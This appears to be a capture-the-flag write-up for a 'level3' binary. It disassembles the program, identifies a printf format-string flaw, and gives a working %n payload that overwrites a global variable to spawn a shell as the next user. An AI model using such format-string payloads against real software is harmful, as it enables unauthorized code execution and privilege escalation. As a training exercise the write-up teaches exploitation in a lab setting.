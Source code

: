 level3
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level3
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

It calls another function v:

```nasm
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

We can see that there is a system call, but to reach it, a specific value needs to be set to0x40.
```nasm
...
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   ...
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

The stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | *EBP           |   4  |
|  0x004  | *EIP           |   4  |

There is a call to printf with a user-controlled stack-buffer as first argument.

In c, the procedure would look like this:
```c
FILE *stdin = *(FILE**)0x8049860;
fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x804988c == 0x40)
{
	fwrite(...);
	system(...);
}
```

Exploitation
------------

With the use of some format-specifiers, we can easily print values from the stack, as if they where arguments:
```c
./level3 <<< "%p"
```
```c
0x200
```
Here we can see that we are able to print the length of the buffer, which was the second argument of the previous function: fgets.

Let's see if we can get up to our own buffer.
Remember: Arguments are pushed on the stack in reverse order.
That means [esp] is the first argument passed on the stack:
```nasm
...
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
...
```
Indeed, it contains the address of our buffer at ebp - 0x208, or esp + 0x10.
Since the buffer starts at esp + 0x10, we need to pop 16 bytes off the stack until we reach it.

This can be done using the %p format specifier, which prints 32 bit pointers.
We need to use 4 of them so that we have a 4 * 4 = 16 bytes offset.

```sh
./level3 <<< "AAAA %p %p %p %p"
```
```c
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Alright, so we can control the format string, as well the fourth argument of the printf call. But what can we do with this?

```sh
man 3 printf
```
>BUGS
>>Because  sprintf()  and  vsprintf() assume an arbitrarily long string, callers must becareful not to overflow the actual space; this is often impossible  to  assure.
>>Note that  the length of the strings produced is locale-dependent and difficult to predict.Use snprintf() and vsnprintf() instead (or asprintf(3) and vasprintf(3)).
>
>>Code such as printf(foo); often indicates a bug, since foo may contain a %  character.If  foo  comes from untrusted user input, it may contain %n, causing the printf() callto write to memory and creating a security hole.

In our case, the executable is affected by the second bug. We can write to a location provided by an argument using the %n specifier.

The %n modifiers writes the length of the preceding formatted input. So if we want to write 0x40 to memory location 0x804988c, we need to put the address at the start of our buffer, pop 3 arguments off the stack using the %p specifier, and pad the input to reach 40-bytes before placing the %n specifier.

```sh
ADDRESS="0804988c"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(echo "$BYTES%60x%4\$n"; cat) | ./level3
```
```
                                                         200
Wait what?!
whoami
level4
```
